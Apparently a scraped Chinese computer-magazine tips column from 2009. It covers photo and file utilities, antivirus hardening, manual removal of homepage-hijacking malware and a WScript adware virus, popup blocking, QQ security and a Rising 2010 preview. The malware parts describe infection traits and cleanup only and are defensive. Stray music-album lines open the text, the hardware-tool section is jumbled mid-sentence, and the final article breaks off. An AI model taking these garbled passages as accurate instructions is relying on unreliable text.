- The Third Eye Foundation《Little Lost Soul》
- Emer Kenny《Emer Kenny》

（山东/张正萍）## 普通DC也能当高端货

超微距和超广角成了目前DC的主流，但有这些功能往往都是最新的DC，两年前的相机难道就淘汰吗？莫急莫急，我来教你免费升级。

### 超级微距——背景虚化

笔者平常喜欢拍一些花花草草，可是我的旧相机无法达到虚化背景的效果的，有时虽然取景非常巧妙，但效果突出的微距模式始终拍不好，现在不担心这问题了，因为有了背景虚化的专业软件——光影魔术手。

首先运行光影魔术手3.1.1.58 (http://www.neoimaging.cn/download.shtml)，打开照片，选择菜单“效果”中的“对焦魔术棒”功能，弹出“对焦魔术棒”对话框调整对焦半径大小，然后在预览图上，用鼠标左键点击前部桃花、叶子及其他小花做为背景不点击，我们还可以根据自己要求调整背景虚化程度，达到自己满意的效果，点击确定，保存自己的作品，慢慢欣赏吧。

小提示：
可牛影像最新v1.4.3.1002版 (http://www.keniu.com/download.html) 也有了背景虚化功能。

### 超级广角——全景拼接

旅游时，看到好的景色总是拍个不停，有时大的场景就为难了咱们的相机了，没有广角镜头，能拍出全景吗？当然行，现在有了全景大师 (下载地址：http://work.newhua.com/cfan/200914/quanjing.rar) 帮忙就好了。

双击打开软件，在左侧树型菜单中选择照片文件夹，然后选择几幅同景点照片，按住Ctrl或Shift键进行多选，单击“下一步”，拖放缩略图调整图片顺序。在这里选择拼接全景类型，软件提供了四种，分别是水平、垂直、环场、矩阵，本例中选择水平，然后点击“拼接”，软件自动分析图片相近像素，接着我们可以进行手动调整相似位置，达到满意效果后点击“保存”，这样我们就自制了一幅超大全景图。

总之，只有想不到，没有做不到，经过我们的努力，普通DC也能和高端设备媲美了。
(文/夏从林)

## 瞬间合并子目录

阿涛是一个摄影爱好者，照片他都会根据拍摄日期放到不同的文件夹中。有一天单位搞活动，要用他前几次外出拍摄的照片来进行展示，这下他就面临一个大问题了，要把平时整理的各个文件夹下的图片再合并到一起，这个工作可不轻松。怎么办？

阿涛拿出了秘密武器Suction (下载地址：http://work.newhua.com/cfan/200914/suction.rar)，首先打开Suction，然后将要合并的子文件夹拖拽到Suction的主界面中，Suction就会将子文件里包含的文件全部拷贝到文件夹的根目录中，并且会在Suction的主界面中显示拷贝文件的数量。不同子文件夹中如果有同名的文件，Suction会把它重命名，会给文件名加上前缀，所以不用担心文件覆盖的问题。只是要注意一点的是，原先在子文件夹中的文件并没有备份，而是直接删除掉，所以对原来文件最好做一个备份。

(辽宁/07073小新)

## 身体强壮少生病 系统加固少中毒

目前互联网中流行的木马病毒，其功能都具有一定共性。例如，盗取用户个人信息、破坏系统文件、关闭杀毒软件，甚至使中毒用户电脑无法访问安全软件厂商的网站……我们可以利用瑞星主动防御功能中的“系统加固”来强健我们的系统，使其更坚固。

### 实例1 保护瑞星不被关

很多病毒会通过修改注册表劫持项使得杀毒软件无法打开，保护注册表劫持项不被病毒修改也就避免了这个问题，这种自保的活瑞星可以自己搞定！

第一步：打开瑞星“全功能安全软件2009”或“瑞星杀毒软件2009”，依次选择“设置→防御设置”，展开左侧的“防御设置”，点击“系统加固→自定义级别”。

第二步：点击左侧的“注册表监控”，在右侧的规则列表中，选中“应用程序劫持项”，在下方的“触发规则时”选择“拒绝→确定”。

第三步：点击左侧的“系统文件保护”在右侧的规则列表中，选中“hosts文件”，在下方的“触发规则时”选择“拒绝→确定”，当然有正常程序要修改hosts时也无法实现，如果你对这个比较了解，可以选择为“提示”。这样设置后，当有病毒要进行修改注册表劫持项或系统的hosts文件时，就无法实现了。

### 实例2 保护系统必需功能

任务管理器和安全模式是我们用来保证系统安全的重要手段，而很多木马病毒就是通过破坏这两个功能。保护这两个功能的正常运行也就非常有必要了。在“瑞星全功能安全软件2009”的“系统加固”功能自定义设置里有一个“注册表监控”设置，在这个设置里只要对“安全信息模式”和“自定义任务管理器”登录模式注册表程序进行保护就可以了。

第一步：打开瑞星“全功能安全软件2009”或“瑞星杀毒软件2009”，点击右上方菜单的“设置→防御设置”，展开左侧的“防御设置→系统加固→自定义级别”。

第二步：点击“注册表监控”，在规则列表中，勾选“禁用当前用户及本地电脑的任务管理器”和“安全模式信息”，在“触发规则时”选择“拒绝”，最后单击“确定”。
(瑞星安全工程师/威子)

## 一个萝卜一个坑 手把手教你修复主页

“主页被改了！又被改了！”这样的呼声时常在耳边响起，这也是我们中毒的一个显著特征。现在主页已经不仅仅是恶意插件喜欢破坏的地方了。主页修改给幕后黑手带来巨大的商机，致使病毒作者都瞄准了这块“肥肉”，而主页防护并没有引起杀毒软件的足够重视，一旦遇上主页被修改的困境，我们如何解决呢？

### 实例一 清除 www.ku256.com

特点：病毒常来源于某网盘提供的LiteIM软件，该恶意程序会隔一段时间重新修改IE主页，导致反复清除却无法清除干净。

解决步骤：

第一步：运行regmon.exe (下载地址：http://work.newhua.com/cfan/200914/Regmon.rar)。然后打开浏览器，将IE主页修改为空白页，等待IE主页被重新修改为www.ku256.com。按CTRL+E停止监控，按CTRL+F打开查找窗口，然后输入www.ku256.com后单击“查找”，很快我们发现一个名为nudlsbjg.exe (名称是随机产生的) 修改了IE主页。

第二步：选中nudlsbjg.exe进程，右键单击，选择“进程属性”，会发现病毒文件位于C:\Program Files\ComPlus Applications\nudlsbjg.exe。

第三步：打开任务管理器结束进程nudlsbjg.exe，然后根据上一步中的路径删除掉nudlsbjg.exe文件，重新指定IE主页，再打开时就不会再有www.ku256.com了。

小提示：
对付主页被修改的步骤：先尽可能多地修复已知IE被修改的项目，如果这个步骤不能修复进入下一个阶段，找出修改IE主页的元凶，最后彻底删除恶意程序还原IE主页。

### 实例二 清除 www.go2000.cn

特点：它来源于某游戏下载站提供的开心斗地主程序。该恶意程序使用最近比较流行的一种IE主页的方法，比较具有迷惑性。

解决步骤：
修改IE默认主页为空白页，发现双击打开IE主页还是没有恢复，在开始菜单的“运行”窗口输入regedt32，按Ctrl+F搜索go2000.cn，发现以下项目可疑，双击编辑注册表，将http://www.go2000.cn删除此时运行IE主页恢复正常。

### 实例三 清除 daohang.htm

特点：该恶意程序会 1.替换快速启动栏的IE快捷方式指向一个名为daohang.htm的页面；2.替换开始菜单的IE快捷方式；3.通过映像挟持世界之窗、火狐、傲游、谷歌浏览器等常见浏览器，使得运行这个软件的时候也会打开daohang.htm；4.修改IE关联(HKEY_CLASSES_ROOT\CLSID\{871C5380-42A0-1069-A2EA-08002B30309D}\shell\OpenHomePage\Command IEXPLORE.EXE后面添加一个参数daohang.htm)

解决步骤：
使用360安全卫士或金山急救箱可以自动修复IE主页，并能够修复多项被病毒修改的系统设置。

### 实例四 清除 www.9348.cn

特点：常见于某木马下载器下载，该恶意程序通过rootkit技术来强制锁定IE主页，普通用户不能清除。

解决步骤：
第一步：运行XueTr.exe (下载地址：http://work.newhua.com/cfan/200914/XueTr.zip)，切换到“钩子”栏，在“SSDT、Shadow SSDT、内核钩子”栏中找到可疑的钩子，主要是针对注册表的钩子，比如此例中的内核钩子栏显示C:\windows\system32\drivers目录下有一个名为wxuye.sys的驱动；hook NtQueryValueKey。右键单击NtQueryValueKey，选择“恢复”。

小提示：
hook NtQueryValueKey这个函数用于查询注册表键值，由于IE启动的时候会查找默认的IE主页，比如www.google.cn，这个驱动却告诉IE现在的主页是www.9348.cn。

第二步：运行Process Explorer (下载地址：http://work.newhua.com/cfan/200914/jcck.rar)，按Ctrl+F输入wxuye.sys，单击“查找”，右键单击wxuye.sys，选择“结束进程树”，解除病毒文件占用以后，删除wxuye.sys (killfile.png)，再利用启动管理工具如360安全卫士、超级兔子等找到病毒驱动wxuye.sys的启动项目，禁止掉。

小提示：
这个例子使用360顽固木马专杀可以清除，另外金山急救箱需经两次重启后才可以删除。由于病毒样本变化大，工具的有效性难以保证，上面我们提供了手动清除的方法，对于这类rootkit型的主页修改，我们可以结合XueTr、冰刃等antirootkit软件先恢复病毒的hook，然后借助文件删除工具和启动项目管理工具可以轻松删除注册表文件和启动项目。

(北京/锈剑)

## 丢掉沙子跑得快 去除电脑无用的垃圾

哲人常说，走路时，一定要先倒掉鞋里的沙子。这样才能走得更快、更远。同样日积月累下来，电脑里也有不少“沙子”，增大了电脑负担，也影响了我们的工作效率。今天就来倒掉电脑里的“沙子”吧！

### 实例 1 删除无效收藏夹

随着时间的推移，收藏夹里的很多网址可能都已经失效。如果对这些网址一个个地去验证，那可是一项不小的工程。而借助AM-DeadLink（下载地址：http://www.onlinedown.net/soft/9029.htm）便是一件很简单的事情了。

第一步：运行AM-DeadLink后，软件默认是Internet Explorer浏览器，如果使用的是非IE浏览器，则可在浏览器选择框中选择自己对应的浏览器（AM-DeadLink支持Internet Explorer、Firefox、Mozilla、Opera、Netscape）。如笔者使用的是Firefox，则可在此选择Firefox。在第一次设置时会弹出一个打开窗口，设置浏览器收藏夹所在位置。例如Firefox默认是：C:\Documents and Settings\用户名\Application Data\Mozilla\Firefox\Profiles\*.default\bookmarks.htm。

### 实例 2 清理无效文件

清理完无效收藏夹，你很容易想到电脑里其他的无效文件吧。这些东西的清理已经是家常便饭了。启动“Windows优化大师”（下载地址：http://www.wopti.net/），在窗口左栏切换至“系统清理→磁盘文件管理”项，然后设置好要检查的系统盘符。切换至“扫描选项”标签栏，勾选“扫描无效的快捷方式”及“扫描无用的文件夹”项。建议还勾选右栏中的“允许扫描隐藏属性文件”。完成后单击“扫描”按钮便可进行快速扫描。扫描完成后在“扫描结果”中可看到搜索到的无效快捷方式、无效文件、空文件及文件夹。此时咱们可以在这个结果中每项前的方框中单击来进行勾选，完成后再单击窗口右上端的“删除”按钮来进行删除即可。

### 实例 3 删除重复的歌曲、歌词文件

上面的文件或许常会清理，可你时常要忽视的还有一点哦！无聊时下载的歌曲、歌词早就泛滥了吧！一会儿用这个下，一会儿用那个下，不知道重了多少哦！要清理这些重复的歌曲、歌词文件。我们可通过“Vistanita Duplicate Finder”（下载地址：http://work.newhua.com/cfan/200914/ctgc.rar）来智能完成。

- 第一步：进入Vistanita Duplicate Finder后，单击“参数”按钮，设置要查找的重复文件条件参数。建议不勾选“相同的文件名称”及“相同的文件日期”，而是采用其默认的“相同大小”与“相同内容（字节比较）”两项选择。其他标签中的设置大家可以根据自己的实际情况进行修改。完成后单击“确定”返回主窗口。
- 第二步：选择歌曲存放位置，如“本地磁盘（F:）”，单击“搜索”按钮进行比较搜查。一大会后，在右栏中便可看到得到的结果。对于相同的文件我们可以根据相应信息在其前的方框单击左键进行勾选，或者直接在工具栏单击“标记→常规”来进行选择。选择完成后单击工具栏上的“删除”图标即可完成重复歌曲及歌词文件的删除。

(湖南/笑笑先生)

## 有图才有真相 软件启动图形化

正所谓“有图才有真相”，现在是个相信图、喜欢图的年代。那些古板的东西都会被流行抛开。你自认为自己不是一个OUT的人吗？现在问你两个问题，你的多启动菜单是黑底白字吗？你保存的安装文件是散落的列表吗？如果是，那咱先偷偷跟上时代，这两样都可以变成图形哦！

### 实例1. 多启动图形化

对于安装多个系统的人来说，Chameleon软件的出现绝对是一个福音。可以引导MAC、Linux、Windows系统。如果在MAC下可以直接安装自动安装程序（下载地址：http://work.newhua.com/cfan/200914/bsl.zip）。如果是在Windows下，需要下载并运行Chameleon Install（下载地址：http://work.newhua.com/cfan/200914/bslxp.rar），运行后，选择当前操作系统系统类型，然后单击“安装”就可以了。现在重新启动电脑，就会发现有了一个Chameleon菜单，进入后漂亮的启动画面就出现了！

小提示：软件需要Windows XP安装.NET2.0。如果无法正常启动，需要按两次E对硬盘分区进行修改，例如（hd0，0）改为（hd0，1）。

### 实例 2. 软件安装图形化

自己喜欢的软件总会保留一个目录专门存放它们吧。需要安装时你还要看到散落的文件吗？不想的话就下载InstallPad（下载地址：http://work.newhua.com/cfan/200914/InstallPad.zip），解压后用记事本打开软件文件夹里的XML文件，InstallPad预设了一些软件的网络安装路径（不支持中文路径和中文名），将<Name></Name>之间的Adobe Reader换成软件名字如：sogou，将<FileUrl></FileUrl>中间的链接，换成本地文件路径，如file:///H:/111/sogou_pinyin_42b.exe（见图），依次将自己的软件添加进来，运行InstallPad就可以看到软件排列在这了。

```
<SilentInstall />
<SimultaneousDownloads>3</SimultaneousDownloads>
<InstallationOptions>
  <Application>
    <Name>Adobe Reader</Name>
    <FileUrl>http://ardownload.adobe.com/pub/adobe/reader/win/7.x/7.0.8/enu/AdbeRdr708_en_US.exe</FileUrl>
    <Comment>adobe reader mac</Comment>
  </Application>
  <Application>
    <Name>Azureus</Name>
    <FileUrl>http://easynews.dl.sourceforge.net/sourceforge/azureus/Azureus_2.5.0.0_Win32.setup.exe</FileUrl>
  </Application>
  <Application>
    <Name>FireFox</Name>
    <FileUrl>http://download.mozilla.org/?product=firefox-1.5.0.7&amp;os=win&amp;lang=en-US</FileUrl>
  </Application>
</InstallationOptions>
```

小提示：软件原本是基于网络地址的，在项目上右键单击editor application（编辑条目），将URL地址换成喜欢软件的网络下载地址就可以了（EXE文件的绝对地址哦）。

(黑龙江/李彦)

## 莫急躁 窗口操作可以随心所欲

炎炎夏日，让心情也变得急躁起来。如果玩玩电脑都不顺心，那就不应该了！摆弄个窗口都有很多限制，不能移动，不能缩小……别急，跟我来，安装“窗口移动精灵”（下载地址：http://work.newhua.com/cfan/200914/ydjl.zip）后，一切都可以实现。

### 拖动哪有限制？

一般情况下，当我们移动一个窗口时，只能用鼠标拖动其标题栏才能移动它，而且不能随意地移动。运行“窗口移动精灵”后，可以看到上面有几个选项，首选勾选“随系统启动”、“启动本程序后最小化”和“打开随意移动窗口功能”。这样当我们要移动某个窗口时，按住控制键（默认为Alt键，可单击“设置”进行更改），随便用鼠标按住窗口一个位置就可以拖动了。

### 缩小哪能有限制？

一般窗口大小都可以变的，可有些软件特别别扭，想缩小下都不行，有个缩小的底限。咱不管它，勾选“窗口移动精灵”的“任何窗口都能改变大小”，再去调整窗口，哪个还敢说有限制（经测试除非特别BT，一般窗口都可以缩小了）？

### 隐藏哪能不会？

上期我们看了千千静听的新功能，自动靠边，就想让它像QQ一样自动隐藏，这点“窗口移动精灵”也能做到。勾选“窗口自动隐藏屏幕上方”，现在再把千千静听拖动屏幕上方位置，它就不是靠边而是像QQ一样隐藏了，鼠标过去才会自动出来。

(河南/TF)

## 杀软重装原样还

今天我们来谈论一个虽老但有用的话题，那就是重装系统前杀毒软件的备份问题。目前很多杀毒软件都提供了病毒库备份功能，其他的网上更新也比较快，直接下载升级也是很方便的。不过ESET NOD32网上的下载版本病毒库还是跟不上，重装后还要等待升级，先别抱怨，先在教你如何备份，重装不用再升级！

先下载一个备份工具Nodbak（下载地址：http://work.newhua.com/cfan/200913/nodbak.rar），解压后直接运行Nodbak，然后它会自动在同目录下生成一个病毒库文件。重装系统后，重新安装ESET NOD32，找到Nodbak保存目录，双击病毒库文件，ESET NOD32就自动更新为备份前的病毒库了（此方法在Vista支持不好，网上流传的备份Updfiles文件夹的方式经官方客服证实是不管用的）。

(广州/刘构)## 硬件信息的传播大师——超级兔子

每每有朋友找我解决电脑问题时，我都想起一款软件，它众多的功能，方便快捷的使用方式都让我记忆犹新，记得第一次使用这款软件帮助心仪女同学的时候，她眼睛里的小星星让我自豪，高大，对我的崇拜之词记忆犹新。今天在这里要和大家说的就是装机必备软件——超级兔子。

信息，并在软件左上方显示操作系统，DirectX版本信息等。硬件天使下方会逐一显示处理器，主板，内存，显卡，硬盘，网卡，声卡，显示器等相关信息，“点击→处理器信息”会展开详细全面的介绍。如点击处理器信息会体现名称、核心类型、封装、标识、频率、电压等，可以全面了解机器内部构成。这里还有实时CPU温度高低显示，CPU风扇转速显示，主板，硬盘温度，内存使用率等，从各个方面了解心爱的电脑的使用状态。有很多朋友刚刚使用超级兔子时会发现有硬件信息不被识别。如主板需要安装驱动、温度不能获取等，这时“点击→主板信息→安装驱动”出现的驱动

## 硬件信息一把抓

打开超级兔子后，点击“系统→硬件天使”，会弹出软件新窗口，开启过程中硬件天使自动读取硬件信息。天使提供的快速检测，就可以刷新系统信息，重新识别主板型号与温度，一键安装哦。

> 小提示：
硬件天使开启后，会在软件的中间部分体现升级天使自动检测可安装的漏洞补丁，点击下载并安装补丁可一键安装完电脑的可更新程序。

## 硬件高低我来评

如果你需要对CPU、内存做新的评分，只需点击“硬件天使→硬件评测→开始测试”就可以了，会测试出目前的CPU整数运算、单双精度浮点运算、内存复制等相关项目。这里要注意的是，测试时间大概不到1分钟，建议关闭浏览器及聊天软件，停止所有键盘与鼠标的操作，这样才会更加准确。

## 优化大师后重出江湖 鲁大师的诞生之谜

优化大师的名字伴随很多人走过了“奔腾”年代，鲁锦作为它的主要开发者也被大家所熟知，几年后，优化大师易主，鲁锦在做什么呢？在小白的八卦调查后发现，他一直在筹划开发一个终极武器——鲁大师（原2武器）。如此独家的东西怎能独享呢，于是小白无私地和大家分享下这鲁大师的故事。

- 鲁大师
开发者：鲁大师团队
开发语言：汇编、Delphi、VC等
软件性质：免费软件
支持平台：Windows 2000/XP/2003/Vista/2008/7
下载地址：http://www.zwuqi.com/

- 鲁锦
专业：无线电
毕业时间：1996年
软件作品：Windows优化大师(已转让)、鲁大师

## 鲁大师之前世

很多人第一次见到“鲁大师”这个软件都会心发感慨：“这个软件以前我怎么没发现呢？落伍了！”其实我们并没有落伍，虽然“鲁大师”一看就很成熟，貌似是一个老软件，但它才刚刚发布6个月，说到这里，你肯定也会猜到，软件肯定是出自行家之手，他就是当年优化大师的开发者鲁锦。鲁锦是一位有着坚定理想的完美主义者，对软件他有着无私的责任感，他的目标是如何让一款软件做得更好。2000年~2006年，他一直在做优化大师这款优化软件，可谓是一度引领优化软件领域，那么后来为何他把优化大师卖给给其他公司呢？赚钱？不是。鲁锦谈到“一款产品做了7年还没有成功，那是我个人的局限，所以选择了卖掉”。显然他眼里的成功要比我们想象的高，当然也正是由此，一个新的软件才会诞生。

## 鲁大师之今生

提硬件检测，我们会想到一大堆的著名软件，可你是否更深一点想到，这些软件没有一个国产的。我们只能做汉化、做引进吗？鲁锦想通过自己的努力来改变这个窘境。Z是字母表的最后一个，也就是终极，他要做一款终极武器——鲁大师，力争让大家摆脱那些国外软件，摆脱只能等待中文BUG修复的日子。鲁大师刚刚推出便是2.0版本，那么1.0是啥时推出的呢？很有意思的是，鲁锦说鲁大师1.0是在他脑子里面发布的。策划这个软件的过程比较长，他反复地思考，并不断地把自己的考虑告诉给自己的伙伴，偶尔他会在周末把一些想法用代码实现，1.0版的细节曾经让他与伙伴们在茶坊里面论证了1周时间。1周过后，鲁大师就有团队开始独立开发，1个多月后，2.0版出来了。因为开发出来的版本较鲁锦原来计划的1.0还有差距，于是就叫2.0了，1.0更像是母版，考虑是最周全的，那些新的内容将在今后的3.0、4.0逐步实现。

## 鲁大师的终极使用

### 利用图标信息

鲁大师的任务栏可谓是花费了好多心思，最小化后它的图标可以用来显示温度，默认显示笔记本电脑电池电量，右键单击，在“监测项目”里可以选择CPU温度，主板温度，电池电量等。而且当你使用下载或修复系统补丁，进行系统性能评分时，软件最小化后会显示任务进度。这样你做其他事时就不用对鲁大师执行进度感到茫然了。

### 监测电池性能

如果你用的是笔记本电脑，那么时间一长，电池会有所损耗，电量也不足了，如何确切知道它的数据呢？启动鲁大师，依次切换“硬件检测→其他”，在电池一项中你就看到了电池的损耗。这一招用来检测电池的新旧程度很是管用哦！平时使用时，电池电量会逐渐减少，具体情况鲁大师也会提示我们：当电池电量小于25%时，提示颜色为黄色，当小于10%时，为红色，当鼠标移动到鲁大师上时，软件会提示当前容量还能使用多长时间，当电池电量小于15%时，鲁大师会弹出提示信息——希望用户尽快插上交流电源，而充电时，鲁大师除了提示充电百分比外，当鼠标移动到鲁大师上时，将提示还需要多长时间能把电池充满。

### 检测电脑散热

买新电脑时，怎么知道电脑的散热好坏呢？先打开鲁大师进行温度检测，然后切换到“温度检测”，单击右侧“快捷操作”中的“温度压力测试”。然后就会弹出两个Direct3D的运算窗口，这也就模拟了玩游戏时对电脑的压力，而且再次点击“温度压力测试”，还会再弹出两个测试窗口，从而让系统的负荷更大，现在来看看硬件的温度吧，散热性能是好是坏就很容易得知了。

(本刊记者/白斌)

## 电脑也有人骚扰？博客网广告狙击战

有一天宅男的电脑莫名其妙弹出一个叫作博告网(http://www.bf**g**.com)的网站，更加恐怖的是每隔10分钟这个网页就会像幽灵一样再次弹出来，即使重启电脑还是如此，使用NOD32、360安全卫士等安全软件查杀也没有任何效果。侦探脑残接到报案，连夜奔赴现场侦查敌情，一场没有硝烟的战斗开始了。

### 战前考察 找出凶手

### 第一步：找出幕后黑手（找到哪个进程启动了IE浏览器）

首先脑残打开进程管理利器Process Explorer（下载地址：http://work.newhua.com/cfan/200914/jcck.rar）观察进程之间的父子关系，很快就发现一个名为Wscript的进程跟IE进程有关系，是它启动了IE，双击Wscript.exe进程，弹出进程属性对话框，观察Command line（命令行），很快发现一个可疑的文件C:\windows\system32\upgrade.sqm。脑残和受害者沟通以后发现这个文件并不是宅男自己安装的，根据经验操作系统很少会出现Wscript.exe进程，脑残认为这就是博客网广告事件的源头。

### 第二步：寻根问源

下面开始查找可以文件的踪迹，先看看注册表：打开注册表编辑器，按Ctrl+F调出查找窗口，输入upgrade.sqm开始查找，经过一段时间等待以后发现[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]（该键值可以设置程序开机启动）下名为Win32system的启动项包含有upgrade.sqm。这个文件是做什么的呢？

### 第三步：原形毕露

为了查出upgrade.sqm，脑残决定用WinRAR来查看文件（大部分病毒会设置隐藏属性让我们在资源管理器中不能发现它们的踪迹），打开WinRAR以后按Ctrl+T显示文件列表，找到我们需要的文件upgrade.sqm，用“记事本”打开它，分析发现该病毒60.3690秒会弹一次广告，并不停地将自己安装到用户电脑，同时会检测是否存在闪盘等移动设备，并在闪盘建立一个名为FOUND.000文件夹并在里面释放一个file000000.chk，根目录建立autorun.inf使得可以通过双击U盘启动病毒体。

### 指定计划 一网打尽

通过以上的分析以后，我们对这个病毒有了较为深刻的了解，基本清除思想就是结束wscript.exe进程，然后删除run键值下的Win32system的启动项，删除upgrade.sqm，检查U盘删除FOUND.000文件夹和autorun.inf文件。笔者在搜索工具的时候意外发现金山急救箱可以完美清除这个病毒，感染的用户不妨到labs.duba.net下载安装。

### 专家点评

虽然截至笔者完稿的时候已经有部分杀毒软件可以查杀这个病毒样本，但是笔者仍然认为绝大多数杀毒软件对脚本类型的病毒重视度不高。笔者脑断原因可能有两点：1.由于绝大多数病毒是可执行程序，导致杀毒软件厂商在设计查杀引擎的时候对可执行文件的识别算法考虑的比较多，并没有针对性地设计脚本查杀引擎，导致先天性处理脚本病毒就存在不足；2.脚本病毒的灵活性很强，加密变形技术比较成熟，病毒特征码在很短的时候内可能就失去了相应的作用。对于脚本类病毒笔者认为普通用户可以通过回溯的方法手工清除，基本思路是找到wscript进程（VBS/VBE类脚本病毒的宿体），然后通过查找命令行的方式找到对应的文件，并通过文件找到启动项目。

(文/脑残)

## 反弹窗口 建立属于自己的“反导弹系统”

在一个月黑风高的夜晚，天空中突然警笛长鸣，广播不断地播放：“敌袭！敌袭！”只见各种软件窗口如导弹般接二连三地冲向电脑，轰炸着桌面……每天，都会有很多的弹出窗口，比如：QQ的“迷你首页”，飞信的“飞信资讯”，还有暴风、迅雷或MSN的资讯。面对这样的进攻，怎能容忍，电脑王国决定反击，建立“反导弹系统”。

### 网页小广告 民兵防御

其实我们一些常用的浏览器就带有屏蔽弹出窗口的功能。我们利用这些浏览器，即使不用第三方软件也能够帮助我们阻止那些讨厌的弹出窗口。以常用的腾讯TT为例，来给大家讲解一下如何用浏览器对付弹出窗口。先打开腾讯TT浏览器，在右下角会看到一个“自定义屏蔽模式”菜单，用鼠标点击该菜单，就会弹出一个菜单，在菜单中就可以选择要屏蔽的选项，选择好之后，再浏览网页，就会发现大部分的弹出窗口都已经被屏蔽掉了。

### 软件弹窗 天使防御

简单的浏览器弹窗阻止，对网页来说是管用了，那么软件呢？让天使来救救我们吧！什么天使？嫦娥？当然不是，是反弹天使。第一步：打开“超级兔子” (http://www.pctutu.com/)，选择“反弹天使”，单击启用，出现窗口，提示“规则库为空”，单击“新增规则”，出现“输入软件信息”窗口，在窗口中有一个“导弹”，我们就用这个“导弹”拦截弹出窗口！第二步：以“飞信资讯”为例，打开“飞信”，等待弹出“飞信资讯”，弹出后，将“反弹天使”窗口中的“导弹”拖到“飞信资讯”窗口上，则弹出窗口“飞信资讯”边缘出现一个虚框，软件图标栏显示窗口程序的图标，软件名称和执行程序对应弹出窗口“飞信资讯”的名称和程序。第三步：出现对应的名称和执行程序后，单击“下一步”，可以修改规则名称，在窗口匹配条件设置栏中勾选“匹配标题”，防止误杀其他窗口。如果勾选了“匹配大小”，则在设置成功后，“反弹天使”自动关闭弹出窗口前，如果改变弹出窗口的大小，则不能自动关闭，“匹配坐标位置”功能同理。如果勾选了“立即执行规则”，那么在“保存规则”时，则自动关闭弹出窗口。建议在“操作方式”中选择“关闭窗口”，省时省力！第四步：单击“保存规则”，可以看到规则的运行状态，可以启用和禁用，设置弹窗显示几秒钟后执行，建议点选“1秒”，左下角有“拦截所有软件的右下角窗口”，慎用（因为有可能会把QQ的信息提示也轰掉）。单击“帮助指南”，点选“设置”，勾选“系统启动时加载”，如果此时你的杀毒软件提示“有新的启动项加入”，请选择允许。这样，就不用我们自己每次打开“反弹天使”了，最小化软件到系统托盘！完成！小提示：最后最好是能重新启动一下电脑，打开所有的常用软件，等待弹出窗口的出现，一个一个地添加规则，保存好规则。这样省去以后的麻烦。

### 智能防御 专家出马

反弹天使虽然可以有效屏蔽弹窗，但是也会把一些正常的窗口给屏蔽掉！这是让零零发也比较头疼的事情。例如每周四跑跑卡丁车要打补丁，那个补丁程序如果不能读取跑跑广告文件它就会一直打补丁，把有用的窗口留下，无用的再屏蔽？这么复杂，就要用专家EQSecure (http://www.3dsafe.cn/eq.html) 了。首先进入EQSecure的主界面，然后在系统保护中选择应用程序保护，然后点击“设置”按钮，进入应用程序保护设置界面。先在右边点击“添加组”按钮，来新建一个组，再点击“添加程序”按钮，选择要监控的程序。以常用的跑跑卡丁车为例，先选定跑跑卡丁车所在的目录，在右边的拦截操作中对程序进行限制，确保窗口不会弹出。设定好后，要确定跑跑卡丁车放补丁的目录在哪里，然后点击“添加子程序”按钮，对跑跑卡丁车放补丁进行添加。接下来还要在右边的拦截操作中，对这些子目录进行操作设定，把“阻止”操作变成“允许”。都设置好后，点击“确定”按钮保存设置。这样一来跑跑卡丁车不会有弹窗出现，而且也可以正常升级补丁。小提示：使用EQSecure的例外操作时候，一定要弄清程序目录关系，否则选错了程序的目录，就会导致软件无法正常运行，这点要切记！

> (河北/赵博雅 辽宁/小新)

## 为QQ打造全程防护

QQ2009将QQ医生剥离开了，使用被称作安全组件的技术替代QQ医生，让很多朋友感觉新版本反而没QQ2008安全。面对天天都要用的QQ，我们不妨花点时间和精力为其打造一套全程防护方案。

### 登录保护

在QQ2008中，登录QQ时QQ医生会自动侦测系统中是否有键盘截获类木马，从而避免账号被盗，在QQ2009中虽然无此功能，但是我们可以通过360保险箱 (http://www.360.cn/down/soft_down9.html) 来弥补这个缺陷。运行360保险箱后，当打开QQ时，它会自动询问是否保护QQ，只要同意即可，也可以手工将QQ程序拖拽到保护列表中。QQ添加到360保险箱中后，以后登录QQ时360保险箱就会自动进行例行检查，排除不安全的因素（包括键盘截获木马，系统漏洞，盗号木马）。

### 聊天安全

在QQ聊天过程中，经常会见到一些恶意网站地址，很担心一不留神就点击进去，能否屏蔽不安全因素呢？QQKav(下载地址：http://www.j3sing.net/qqkav/) 就可以解决。安装运行后单击菜单“安全”，分别将下面的四个选项选中，就可以分别对付恶意网站，QQ尾巴病毒，好友发送的病毒，移动病毒，从而确保系统的安全。譬如经常收到“我为你点了首歌，到某某地址收听”，就可以通过这项功能将其屏蔽掉了。打开QQKav，单击“屏蔽清理”选项卡，在“屏蔽功能”列表中默认已经有很多相关的屏蔽词语，我们也可以自己添加，例如添加“汇款”这个词语，以后所有与“汇款”相关的消息都将会被屏蔽掉。此外，“屏蔽清理”功能还支持对优盘病毒的屏蔽，以及清理系统垃圾文件。

### 防范万一

为了预防万一，最后我们还应该利用QQ安全中心为我们提供的安全保障服务来保护自己的QQ安全。在浏览器中打开QQ安全中心：http://aq.qq.com/，点击“安全服务→安全体检”，点击“开始体检”按钮，如果之前没有启用QQ密码保护卡功能，检查结果会显示“业务风险”，只要点击“处理风险”按钮即可进入设置页面，根据自己平时使用QQ中的相关模块，直接选择相应项启用消费保护即可。

> (文/daigua)

## 初探瑞星2010——界面与应用程序加固

瑞星2010年度新品已经打造完毕，瑞星2010新品采用了许多新技术、新功能，产品架构进行了优化和创新，对新病毒的快速响应反应能力有了极大提升。下面我们就来体验2010版带给我们的变化。

### 安装初探 小有改动

瑞星2010的安装比较简单，整体变化不大，把“安装前扫描病毒”这项功能去掉了。另外，安装时支持自动安装模式，在安装时直接点击“完成”就可以自动进行安装了。安装后重启，在弹出的“设置向导”中可以直接对查杀级别、监控级别、防御级别进行设置。并且对相应的处理方式也可以进行修改。比如在发现挂马网站的时候，不想看到弹出拦截的提示，在“木马入侵拦截”中选择“直接拒绝”就可以了。

### 新版出新招 应用程序加固

